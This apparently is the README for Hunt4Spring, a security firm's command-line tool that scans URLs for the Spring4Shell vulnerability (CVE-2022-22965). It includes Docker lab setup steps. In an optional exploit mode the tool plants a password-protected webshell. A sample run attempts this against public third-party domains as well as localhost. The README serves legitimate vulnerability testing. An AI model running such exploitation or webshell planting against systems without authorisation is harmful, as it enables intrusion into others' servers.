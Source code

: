 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to <a href="https://tanzu.vmware.com/security/cve-2022-22965">CVE-2022-22965</a> aka Spring4Shell.

**Video Demo:**

## Usage :

   ```
    $ ./hunt4spring -h

     _    _             _   _  _   _____            _             
    | |  | |           | | | || | / ____|          (_)            
    | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
    |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
    | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
    |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                        | |                  __/ |
                                        |_|                 |___/ 
                                                                                                                                                                                            
    

    [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
    [+] Author: Umair Nehri (RHL Research Team)
    [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 
    
    Usage of ./hunt4spring:
    -exploit
            Turns on exploitation mode.
    -file string
            Specify a file containing a list of target URLs.
    -outfile string
            Output file name to store results. (default "hunt4spring.json")
    -url string
            Specify a single target URL.
   ```

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the **-url** flag or provide with bulk URLs through a file by using the **-file** flag. They can even specify the name of the file where they would like to store the output in JSON format by using the **-outfile** flag. [By default the output gets stored in hunt4spring.json]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

#### Usage:
We do  not have to provide any additional flags in this case.
<br>
```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+

```
#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

#### Usage:
In order to enable exploit mode, we have to provide an addtional flag (-exploit=true) along with the normal input flags.
<br>
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
#### Example
```json
[
        {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
        }
]
```

 ### Setting up a Test Environment
  If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can refer to these awesome docker images:
* <a href="https://github.com/reznok/Spring4Shell-POC">Spring4Shell-POC</a>
The installation process is pretty simple. You can refer to the below steps for setting it up locally:
    ```
    git clone https://github.com/reznok/Spring4Shell-POC.git
    docker build . -t spring4shell && docker run -p 8080:8080 spring4shell
    ```
The app should now be available at <a href="http://localhost:8080/helloworld/greeting">http://localhost:8080/helloworld/greeting</a>

* <a href="https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29">vulfocus/spring-core-rce-2022-03-29</a>

The installation process is quite simple in this case as well, you just have to run the below command: 
    ```
    docker run -p 9090:8080 vulfocus/spring-core-rce-2022-03-29
    ```
The app should now be available at <a href="http://localhost:9090">http://localhost:9090</a>

### More details around Spring4Shell
We have covered more details around Log4j Vulnerability in our <a href="#">Blog</a>.

### License & Version
The tool is licensed under the MIT license. See <a href="LICENSE">LICENSE</a>.
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [vx-underground](https://www.vx-underground.org/) for the POC hosted on their <a href="https://share.vx-underground.org/">website</a>.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**